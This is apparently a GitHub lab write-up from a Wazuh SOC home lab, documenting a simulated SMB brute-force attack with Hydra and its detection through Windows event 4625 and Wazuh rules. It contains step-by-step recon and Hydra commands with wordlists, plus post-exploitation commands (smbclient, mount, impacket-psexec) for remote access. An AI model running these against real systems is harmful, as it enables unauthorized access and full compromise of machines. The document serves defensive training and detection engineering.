


# 🔐 SMB Brute Force Attack — Full Documentation

> **Project:** Wazuh SOC Home Lab  
> **Attack Type:** SMB Brute Force using Hydra  
> **Attacker Machine:** Kali Linux (VM)  
> **Victim Machine:** Windows Host (Wazuh Agent Installed)  
> **SIEM:** Wazuh on Ubuntu Server (VM)  
> **Objective:** Simulate a real-world SMB brute force attack and detect it using Wazuh SIEM

---

## 📑 Table of Contents

1. [What is SMB Brute Force?](#1-what-is-smb-brute-force)
2. [Lab Environment Overview](#2-lab-environment-overview)
3. [Pre-requisites & Tools](#3-pre-requisites--tools)
4. [Phase 1 — Reconnaissance (Find Target IP)](#4-phase-1--reconnaissance-find-target-ip)
5. [Phase 2 — Verify SMB is Open](#5-phase-2--verify-smb-is-open)
6. [Phase 3 — Prepare Wordlist](#6-phase-3--prepare-wordlist)
7. [Phase 4 — Launch Hydra SMB Brute Force](#7-phase-4--launch-hydra-smb-brute-force)
8. [Phase 5 — Observe Wazuh Alerts](#8-phase-5--observe-wazuh-alerts)
9. [Phase 6 — Alert Analysis](#9-phase-6--alert-analysis)
10. [What an Attacker Would Do Next (Post-Exploitation)](#10-what-an-attacker-would-do-next-post-exploitation)
11. [Blue Team — How to Defend Against This](#11-blue-team--how-to-defend-against-this)
12. [Key Takeaways](#12-key-takeaways)

---

## 1. What is SMB Brute Force?

**SMB (Server Message Block)** is a network protocol used by Windows systems for file sharing, printer sharing, and network communication on port **445**.

A **Brute Force Attack** on SMB means an attacker tries hundreds or thousands of username/password combinations to gain unauthorized access to a Windows machine using this protocol.

### 🔴 Why is this dangerous?

- SMB is enabled by default on almost every Windows machine
- Weak or common passwords (like `admin123`, `password`) are easily cracked
- Once inside, attacker can access shared files, execute remote commands, install malware
- Famous ransomware like **WannaCry** and **NotPetya** exploited SMB vulnerabilities

### 🌍 Real-World Reference

> In 2017, the **WannaCry ransomware** spread across 150+ countries by targeting SMB (EternalBlue exploit). Even without exploiting vulnerabilities, simple brute forcing of SMB credentials is a common first step in lateral movement inside corporate networks.

---

## 2. Lab Environment Overview

```
┌─────────────────────────────────────────────────────────────┐
│                     HOME LAB NETWORK                        │
│                                                             │
│  ┌──────────────────┐          ┌──────────────────────┐     │
│  │  KALI LINUX (VM) │          │  UBUNTU SERVER (VM)  │     │
│  │                  │          │                      │     │
│  │  Role: Attacker  │          │  Role: SIEM (Wazuh)  │     │
│  │  Tool: Hydra     │          │  Port: 55000, 1514   │     │
│  │                  │          │                      │     │
│  └────────┬─────────┘          └──────────────────────┘     │
│           │                              ▲                  │
│           │ SMB Attack                   │ Logs & Alerts    │
│           │ (Port 445)                   │                  │
│           ▼                              │                  │
│  ┌───────────────────────────────────── ─┴───────────────┐  │
│  │              WINDOWS HOST (Victim)                    │  │
│  │                                                       │  │
│  │  Role: Victim Machine                                 │  │
│  │  Service: SMB (Port 445) — Enabled by default         │  │
│  │  Wazuh Agent: Installed & Forwarding logs to SIEM     │  │
│  └───────────────────────────────────────────────────────┘  │
└─────────────────────────────────────────────────────────────┘
```

| Component | Details |
|-----------|---------|
| 🔴 **Attacker** | Kali Linux (VirtualBox/VMware VM) |
| 🛡️ **SIEM** | Ubuntu Server + Wazuh Manager |
| 🖥️ **Victim** | Windows 10/11 Host Machine |
| 🔌 **Protocol Attacked** | SMB — Port 445 |
| ⚔️ **Attack Tool** | Hydra v9.x |
| 📊 **Detection Tool** | Wazuh Dashboard |

---

## 3. Pre-requisites & Tools

### On Kali Linux (Attacker):

| Tool | Purpose | Pre-installed? |
|------|---------|----------------|
| `hydra` | Brute force tool | ✅ Yes (Kali built-in) |
| `nmap` | Network scanner | ✅ Yes (Kali built-in) |
| `rockyou.txt` | Password wordlist | ✅ Yes (at `/usr/share/wordlists/`) |

### On Windows (Victim):
- SMB must be enabled (default on Windows)
- Wazuh Agent installed and connected to Wazuh Manager

### On Ubuntu Server (SIEM):
- Wazuh Manager running
- Wazuh Dashboard accessible via browser

### Verify Hydra is Installed:
```bash
hydra -h
```
Expected output:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] ...
```

---

## 4. Phase 1 — Reconnaissance (Find Target IP)

Before attacking, the attacker needs to find the victim's IP address on the network.

### Step 1: Check Kali's own IP and network range

```bash
ip a
```

Note your network interface (usually `eth0` or `ens33`) and your IP, e.g., `192.168.1.10`. This tells you your subnet is `192.168.1.0/24`.

### Step 2: Scan the network to find live hosts

```bash
nmap -sn 192.168.1.0/24
```

**Flags explained:**
- `-sn` → Ping scan only, no port scan (just finds live hosts)

**Sample Output:**
```
Nmap scan report for 192.168.1.1
Host is up (0.001s latency).
Nmap scan report for 192.168.1.5    ← This could be Windows victim
Host is up (0.003s latency).
Nmap scan report for 192.168.1.15   ← Ubuntu Wazuh server
Host is up (0.002s latency).
```

> 📝 **Note down the Windows victim IP** — in this lab it was `192.168.1.5` (replace with your actual IP)

---

## 5. Phase 2 — Verify SMB is Open

Before launching the attack, confirm that SMB (Port 445) is actually open on the victim machine.

### Step 3: Targeted Nmap scan on victim

```bash
nmap -sV -p 445 192.168.1.5
```

**Flags explained:**
- `-sV` → Detect service version
- `-p 445` → Only scan port 445 (SMB)

**Expected Output:**
```
PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows 10 Microsoft Windows 10 microsoft-ds
```

✅ **Port 445 is OPEN** — SMB is running. We can proceed with brute force.

### Alternative — Full SMB check:

```bash
nmap --script smb-security-mode -p 445 192.168.1.5
```

This tells you:
- If SMB signing is enabled/disabled
- Authentication level
- Useful for planning attack strategy

---

## 6. Phase 3 — Prepare Wordlist

Hydra needs a list of usernames and passwords to try. We'll use the famous `rockyou.txt` wordlist.

### Step 4: Locate and extract rockyou.txt

```bash
ls /usr/share/wordlists/
```

You'll see `rockyou.txt.gz`. Extract it:

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

Now verify:
```bash
wc -l /usr/share/wordlists/rockyou.txt
```
Output: `14344392` — Over 14 million passwords!

### Step 5: Create a small custom username list

In a real brute force scenario, attackers guess common usernames. Create a file:

```bash
nano usernames.txt
```

Add these common usernames:
```
administrator
admin
user
deepak
guest
test
```

Save with `CTRL+X → Y → Enter`

### Step 6 (Optional): Create a small focused password list for testing

For lab purposes (to get faster results):
```bash
nano passwords.txt
```

Add:
```
password
123456
admin123
Password1
welcome
letmein
deepak123
qwerty
```

> 💡 **Tip:** In real attacks, full `rockyou.txt` is used. For lab, small list gives faster results and cleaner logs.

---

## 7. Phase 4 — Launch Hydra SMB Brute Force

This is the main attack step. We use Hydra to try all username-password combinations against SMB on the victim Windows machine.

### Step 7: Basic Hydra SMB Attack Command

```bash
hydra -L usernames.txt -P passwords.txt smb://192.168.1.5
```

**Full Command Breakdown:**

| Flag | Meaning |
|------|---------|
| `-L usernames.txt` | List of usernames to try |
| `-P passwords.txt` | List of passwords to try |
| `smb://` | Protocol to attack (SMB) |
| `192.168.1.5` | Target IP (Windows victim) |

### Step 8: Run with Verbose Mode (Recommended for Learning)

```bash
hydra -L usernames.txt -P passwords.txt smb://192.168.1.5 -V -o results.txt
```

Additional flags:
| Flag | Meaning |
|------|---------|
| `-V` | Verbose — shows every attempt in real-time |
| `-o results.txt` | Save results to a file |

**Live Output while running:**
```
Hydra v9.5 starting at 2025-04-10 14:22:01
[DATA] max 16 tasks per 1 server, overall 16 tasks
[DATA] attacking smb://192.168.1.5:445/
[ATTEMPT] target 192.168.1.5 - login "administrator" - pass "password" - 1 of 56
[ATTEMPT] target 192.168.1.5 - login "administrator" - pass "123456" - 2 of 56
[ATTEMPT] target 192.168.1.5 - login "administrator" - pass "admin123" - 3 of 56
[ATTEMPT] target 192.168.1.5 - login "admin" - pass "password" - 7 of 56
...
```

### Step 9: Using rockyou.txt (Full Attack)

```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt smb://192.168.1.5 -t 4 -V
```

| Flag | Meaning |
|------|---------|
| `-l administrator` | Single username (lowercase L) |
| `-P rockyou.txt` | Full rockyou wordlist |
| `-t 4` | 4 threads (slower but avoids SMB lockout) |

> ⚠️ **Important:** SMB has account lockout policies. Using too many threads too fast can lock the account. `-t 4` keeps it moderate.

### ✅ Successful Attack Output (if credentials found):

```
[445][smb] host: 192.168.1.5   login: administrator   password: Password1
1 of 1 target successfully completed, 1 valid password found
```

---

## 8. Phase 5 — Observe Wazuh Alerts

Now switch to the Wazuh Dashboard to see the detection.

### Step 10: Open Wazuh Dashboard

Open browser and go to:
```
https://<Ubuntu-Server-IP>
```
Login with Wazuh credentials.

### Step 11: Navigate to Security Events

```
Left Menu → Security Events → Search
```

Filter by:
- **Agent:** Your Windows agent name
- **Time Range:** Last 15 minutes
- **Search:** `smb` or `logon failure` or `4625`

### Step 12: Key Windows Event IDs to Look For

| Event ID | Description | Severity |
|----------|-------------|----------|
| **4625** | An account failed to log on | 🔴 High |
| **4624** | Successful logon | ⚠️ Warning (after brute force) |
| **4740** | Account was locked out | 🔴 Critical |
| **4648** | Logon attempted with explicit credentials | 🔴 High |

### Step 13: Wazuh Rule IDs Triggered

| Wazuh Rule ID | Description | Level |
|---------------|-------------|-------|
| **18152** | Multiple Windows logon failures | 10 |
| **60106** | Windows logon failure | 5 |
| **18153** | Windows account lockout detected | 12 |

> 📸 **Attach Screenshot here:** Wazuh dashboard showing multiple 4625 alerts with source IP of Kali Linux

## 📸 Screenshots

### 1. Hydra Running — Brute Force Attack





### 2. Wazuh Alert — Event ID 4625


### 3. Wazuh Rule 18152 Triggered


### 4. Alert Source IP — Kali Linux Detected





### 5. Account Lockout — Event ID 4740


## 9. Phase 6 — Alert Analysis

### What Wazuh Detected:

```
⚠️  ALERT — Rule 18152 triggered
Description: Multiple Windows Logon Failures
Level: 10 (High)
Source IP: 192.168.1.10 (Kali Attacker)
Target: Windows Agent
Event ID: 4625
Frequency: 56 attempts in 2 minutes
```

### Why This is a Successful Detection:

1. **Volume Detection** — Wazuh noticed abnormally high login failures in short time (signature of brute force)
2. **Source IP Flagged** — Same attacker IP repeated across all attempts
3. **Rule Correlation** — Multiple 4625 events triggered composite rule 18152
4. **Real-time Alerting** — Alert appeared within seconds on dashboard

### Attack Timeline:

```
14:22:01  → Hydra started SMB brute force from Kali (192.168.1.10)
14:22:01  → Windows logged first Event ID 4625 (login failure)
14:22:03  → Wazuh Agent forwarded events to Wazuh Manager
14:22:05  → Wazuh rule 18152 triggered (multiple failures threshold crossed)
14:22:05  → Alert appeared on Wazuh Dashboard
14:22:47  → 56 total attempts logged
14:22:50  → [If account lockout enabled] Event 4740 triggered
```

---

## 10. What an Attacker Would Do Next (Post-Exploitation)

> ⚠️ *This section is for educational understanding of attacker methodology only.*

If the brute force succeeded and credentials were found:

### Connect via SMB (File Access):
```bash
smbclient //192.168.1.5/C$ -U administrator
```

### Mount SMB Share:
```bash
mount -t cifs //192.168.1.5/C$ /mnt/windows -o username=administrator
```

### Remote Code Execution via PsExec (impacket):
```bash
impacket-psexec administrator@192.168.1.5
```

This would give a full remote shell on the Windows machine — complete compromise.

---

## 11. Blue Team — How to Defend Against This

As a SOC analyst, these are the defensive measures that should be in place:

### 🛡️ Immediate Defenses:

| Defense | How to Implement |
|---------|-----------------|
| **Account Lockout Policy** | Lock account after 5 failed attempts (Windows GPO) |
| **Strong Password Policy** | Minimum 12 characters, complexity required |
| **Disable SMB v1** | `Set-SmbServerConfiguration -EnableSMB1Protocol $false` |
| **Block Port 445** | Firewall rule — block external SMB access |
| **Network Segmentation** | VLANs — Kali shouldn't reach Windows directly |

### 🔔 Detection Rules (Wazuh/SIEM):

```yaml
# Alert on 5+ failed logins from same IP within 60 seconds
Rule: Multiple-Logon-Failures
Threshold: 5 attempts / 60 seconds / same source IP
Action: Alert Level 10 + Block IP via active response
```

### 🚫 Active Response — Auto-block Attacker:

Wazuh can automatically block the attacker's IP using its **Active Response** feature:

```xml
<!-- wazuh/etc/ossec.conf -->
<active-response>
  <command>firewall-drop</command>
  <location>local</location>
  <rules_id>18152</rules_id>
  <timeout>600</timeout>
</active-response>
```

This auto-blocks the attacking IP for 10 minutes when brute force is detected.

---

## 12. Key Takeaways

### 🔴 Attacker Perspective:
- SMB brute force is simple to execute with tools like Hydra
- Weak passwords are cracked in seconds
- It requires only network access — no special privileges
- Successful attack leads to full system compromise

### 🛡️ Defender Perspective:
- Wazuh successfully detected the attack in real-time
- Event ID 4625 is the key indicator for this attack
- Volume-based detection (many failures = brute force) works effectively
- Active Response can automate blocking to reduce response time

### 📊 Attack Statistics (This Lab):

| Metric | Value |
|--------|-------|
| Total login attempts | 56 |
| Attack duration | ~2 minutes |
| Detection time | < 5 seconds |
| Wazuh alert level | 10 (High) |
| Event IDs generated | 4625, 4624, 4740 |

---

## 📸 Screenshots

> *(Attach the following screenshots here)*

1. `hydra-running.png` — Hydra command running in Kali terminal
2. `wazuh-alert-4625.png` — Wazuh dashboard showing 4625 alerts
3. `wazuh-rule-18152.png` — Rule 18152 triggered alert detail
4. `alert-source-ip.png` — Alert showing Kali's IP as attacker source
5. `account-lockout.png` — Event 4740 (if account lockout triggered)

---

## 🔗 References

- [Wazuh Documentation — Windows Event Monitoring](https://documentation.wazuh.com)
- [Hydra Official GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Microsoft Event ID 4625](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625)
- [MITRE ATT&CK T1110 — Brute Force](https://attack.mitre.org/techniques/T1110/)
- [CIS Benchmark — SMB Security](https://www.cisecurity.org)

---

*📁 Part of: [Wazuh-SOC-Home-Lab](https://github.com/csdeepakk/Wazuh-SOC-Home-Lab) | Author: csdeepakk*
